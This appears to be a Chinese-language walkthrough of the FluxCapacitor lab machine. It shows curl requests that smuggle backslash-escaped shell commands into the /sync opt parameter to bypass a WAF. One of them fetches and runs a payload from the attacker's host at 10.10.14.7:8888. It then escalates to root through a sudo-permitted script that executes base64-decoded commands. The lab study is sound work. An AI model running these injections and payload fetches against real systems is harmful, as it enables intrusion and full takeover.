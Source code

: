 ```yaml
---
title: FluxCapacitor（from nobody to root）
categories:
- training
tags:
- training
- linux os
- command execution
---
```

10.10.10.69

## scan
`80/tcp open  http    SuperWAF`

查看源代码，有一段注释，是javascript代码。
```
	<!--
		Please, add timestamp with something like:
		<script> $.ajax({ type: "GET", url: '/sync' }); </script>
	-->
```
于是访问`http://10.10.10.69/sync`
```
<html>
<head><title>403 Forbidden</title></head>
<body bgcolor="white">
<center><h1>403 Forbidden</h1></center>
<hr><center>openresty/1.13.6.1</center>
</body>
</html>
```
## 攻击向量

OpenResty® 是一个基于 [Nginx](https://openresty.org/cn/nginx.html) 与 Lua 的高性能 Web 平台，其内部集成了大量精良的 Lua 库、第三方模块以及大多数的依赖项。用于方便地搭建能够处理超高并发、扩展性极高的动态 Web 应用、Web 服务和动态网关。

CVE-2018-9230：OpenResty中的Uri参数溢出

- 可能是版本漏洞
- 扫描sync目录，确认了参数opt，可以执行某些命令

## trying

searchsploit openResty
searchsploit CVE-2018-9230
searchsploit SuperWAF
无exp

---
gobuster扫描存在的目录：
```
sync
synctoy
```
---

经过信息搜集，了解到openResty是一个web服务器（比如说nignx,apache），superwaf没有任何资料。

用curl访问，获取当前时间戳；用浏览器访问，获得403，于是用burp抓包。

如果将`User-Agent:`删除，成功获取当前时间戳
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-03/5.PNG)

## 准备提权
在linux命令中，反斜杠'\' 与其他字符一起，会被解释为特殊含义字符。

例如\n ，换行符；\' ，将单引号转义。

如果不使用单引号和双引号（如：echo \，输出为空），则反斜杠可以被看做自动忽略。

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-03/6.PNG)

利用这个特性，我们可以用反斜杠插入要执行的命令，从而绕过/sync脚本的限制

![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-03/7.PNG)

---

```
curl "http://10.10.10.69/sync?opt=' sudo -l'"
curl "http://10.10.10.69/sync?opt=' c\at /home/themiddle/.monit'"
curl "http://10.10.10.69/sync?opt=' whe\reis n\c'"
curl "http://10.10.10.69/sync?opt=' w\hereis python'"
curl "http://10.10.10.69/sync?opt=' w\hereis wg\et'"
curl "http://10.10.10.69/sync?opt=' /usr/bin/pyt\hon3.6 -V'"

curl "http://10.10.10.69/sync?opt=' /usr/bin/wg\et http://10.10.14.7:8888/p.elf -P /tmp'"   发现p.elf不能保存到/tmp，于是将payload改名为index.html.1
curl "http://10.10.10.69/sync?opt=' ch\mod a+x /tmp/index.html.1'"
curl "http://10.10.10.69/sync?opt=' ./tmp/index.html.1'"
```
#### info
```
os: Linux fluxcapacitor 4.13.0-17-generic #20-Ubuntu SMP Mon Nov 6 10:04:08 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

/bin/nc , /usr/bin/python3.6 , /usr/bin/wget
```

#### shell脚本
/home/themiddle/.monit
```
#!/bin/bash

if [ "$1" == "cmd" ]; then
	echo "Trying to execute ${2}"
	CMD=$(echo -n ${2} | base64 -d)
	bash -c "$CMD"
fi
```
## 提权

参考以前[文章](https://whale3070.github.io/training/2018/11/10/x/)
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-03/8.PNG)

```
/usr/bin/python3.6 -c 'import pty; pty.spawn("/bin/bash")'

cd /home/themiddle/
./.monit cmd bHMK
sudo ./.monit cmd Y2F0IC9yb290L3Jvb3QudHh0Cg==（cat /root/root.txt）

通过sudo ./.monit cmd 任意命令

这种方式，可以以root权限执行任意命令
```
## 总结
wfuzz报错了，在这个实验中，fuzz到/sync?opt=，是获得突破点的关键。


